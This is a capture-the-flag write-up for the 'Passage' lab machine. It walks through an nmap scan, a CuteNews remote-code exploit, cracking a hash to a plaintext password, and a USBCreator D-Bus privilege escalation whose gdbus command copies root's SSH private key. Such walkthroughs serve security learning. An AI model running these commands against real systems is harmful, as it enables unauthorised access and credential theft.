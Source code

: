 # Passage
This box is a Linux made by ChefByzen and its IP is 10.10.10.206
We start by an nmap scan:
```
$ nmap -p- -sC -sV -oA nmap/complete 10.10.10.206
```

nmap shows port 22 with Ubuntu banner and port 80.
Lets check the website on the port 80;
Looks like some Hackernews clone with articles that can be commented.
Little line in the footer of the website says: "Powered by CuteNews";

Looking that up, cutenews is a free php content manager system.
Looking up cutenews cve, we immediately find this link:
`https://www.exploit-db.com/exploits/48800`
This exploit leverages CVE 2019-11447 ;
Using the exploit, we get dropped in a shell as `www-data`.

I've uploaded linpeas.sh, exfiled the report, then studied it;
----

In the ̀ /var/www/html/CuteNews/cdata/users a bunch of .php files contained
php serialized objects like this one:
```
a:1:{s:4:"name";a:1:{s:10:"paul-coles";a:9:{s:2:"id";s:10:"1592483236";s:4:"name";s:10:"paul-coles";s:3:"acl";s:1:"2";s:5:"email";s:16:"paul@passage.htb";s:4:"nick";s:10:"Paul Coles";s:4:"pass";s:64:"e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd";s:3:"lts";s:10:"1592485556";s:3:"ban";s:1:"0";s:3:"cnt";s:1:"2";}}}
```

Using an online php unserializer, we get the md5 hash for user paul-coles, ie
paul on the box.
Using crackstation we find that paul's password is atlanta1

```
$ su paul
Password: atlanta1
paul@passage:~$ cat /home/paul/user.txt | wc -c
33
```
we've owned user #1;
I've exfiled paul's ssh key to get a better shell.
Reading its public ssh key:
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzXiscFGV3l9T2gvXOkh9w+BpPnhFv5AOPagArgzWDk9uUq7/4v4kuzso/lAvQIg2gYaEHlDdpqd9gCYA7tg76N5RLbroGqA6Po91Q69PQadLsziJnYumbhClgPLGuBj06YKDktI3bo/H3jxYTXY3kfIUKo3WFnoVZiTmvKLDkAlO/+S2tYQa7wMleSR01pP4VExxPW4xDfbLnnp9zOUVBpdCMHl8lRdgogOQuEadRNRwCdIkmMEY5efV3YsYcwBwc6h/ZB4u8xPyH3yFlBNR7JADkn7ZFnrdvTh3OY+kLEr6FuiSyOEWhcPybkM5hxdL9ge9bWreSfNC1122qq49d nadav@passage
```
Well.
```
ssh -i paul-key nadav@10.10.10.206
Last login: Mon Aug 31 15:07:54 2020 from 127.0.0.1
nadav@passage:~$ ls
Desktop    Downloads         Music     Public     Videos
Documents  examples.desktop  Pictures  Templates
```
lmao.
we've owned user #2;

Based on .viminfo file found in /home/nadav, we found some history
log  of nadav's editing its user's capabilities with USBCreator for
Ubuntu.


---- PrivEsc Probably has to do with this:
https://www.exploit-db.com/exploits/36820

---

I took a break for the day and came back with fresh eyes on the problem
I immediately found this blog post
https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/
It refers to some user nadav on Ubuntu using usbcreator cve.

Using this command, we are able to exfil root's ssh private key:

```
nadav@passage:$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/pwn true
nadav@passage:$ cat /tmp/pwn
-----BEGIN RSA PRIVATE KEY----
...
```

We exfil the key and use it to log into the box
as root
```
$ chmod 600 root-key
$ ssh -i root-key root@10.10.10.206
root@passage:~# ls
artifacts  files  root.txt
root@passage:~# cat root.txt | wc -c
33
```

We've owned the root account.

